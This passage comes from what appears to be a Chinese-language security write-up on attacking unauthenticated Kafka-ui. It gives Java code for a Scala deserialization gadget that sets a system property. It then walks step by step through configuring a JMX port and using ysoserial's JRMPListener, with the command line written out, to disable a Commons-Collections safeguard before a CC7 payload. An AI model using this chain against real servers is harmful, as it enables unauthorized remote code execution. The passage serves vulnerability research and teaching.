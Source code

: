 ```
    ConcurrentSkipListMap map = new ConcurrentSkipListMap((o1, o2) -> 1);
 
    // 将view填入map, 当view.iterable().next()被调用, System.setProperty lambda将被执行
    map.put(view, 1);
    map.put(view, 2);
 
    // Replace the comparator with the IterableComparator
    // IterableComparator is responsible for executing the view.iterable().next() on comparison
    Field f = map.getClass().getDeclaredField("comparator");
    f.setAccessible(true);
    f.set(map, iterableOrdering);
    return map;
}
 
public Object getObject(final String command) throws Exception {
    //e.g command = "org.apache.commons.collections.enableUnsafeSerialization:true");
    String[] nameValue = command.split(":");
    return createSetSystemPropertyGadgetScala213(nameValue[0], nameValue[1]);
}
```  
  
**未授权访问Kafka-ui修改JMX端口打入CC7**  
  
访问8080默认端口,进入Kafka-ui,点击配置Kafka Cluster(当然再新建一个也是可以的)：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3Oaxf88Bx6VJiaTTkBFlEfUdzpHEYG3U5Y2mzkfRcSwCRc7rVz9cIR8kQ/640?wx_fmt=png&from=appmsg "")  
  
点开Metrics配置项,选择Metrics Type为JMX,并配置任意一个端口用于监听(记住这个端口号)：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3OodImgcV1nPpmzqc3jL41ahJsov9lIEwI6Lwjcuia0zyoEI4OkubmVvw/640?wx_fmt=png&from=appmsg "")  
  
还记得前面说过的一句话吗？ ”**JMX 可以使用 JRMP 作为其传输协议之一**“  
  
著名的YSOSerial工具提供了一个  
JRMPListener类（ysoserial的使用请自行查阅教程,不再赘述）,用JRMP协议来达成JNDI注入反序列化payload,执行恶意代码。  
  
  
**第一步：破盾**  
  
首先使用前面的Scala反序列化Payload修改系统属性org.apache.commons.collections.enableUnsafeSerialization的值为true,绕过Commons-Collections3.2.2的防御,启动参数配置如下（分别是端口,Payload名称,自定义Payload）：  
```
1718 Scala1 "org.apache.commons.collections.enableUnsafeSerialization:true"
```  
  
端口为刚刚配置的JMX端口1718：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3ONuK2thr7ZADUoMGoar1uoicsicVaZpCwmXOH5OsEiaIH0SicTictNrAwcLw/640?wx_fmt=png&from=appmsg "")  
  
启动JRMPListener,触发反序列化：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3OlzcxNADTGDOeE0MCUhUETfCicdUNVzs9tJFIKIOSiaVct4YthiaPo59KA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3OcLiam4FmjTos7ibRANQxALO2cS6ZAibqxtnUt7HicZiaYBFzloibia7Gxgbfg/640?wx_fmt=png&from=appmsg "")  
  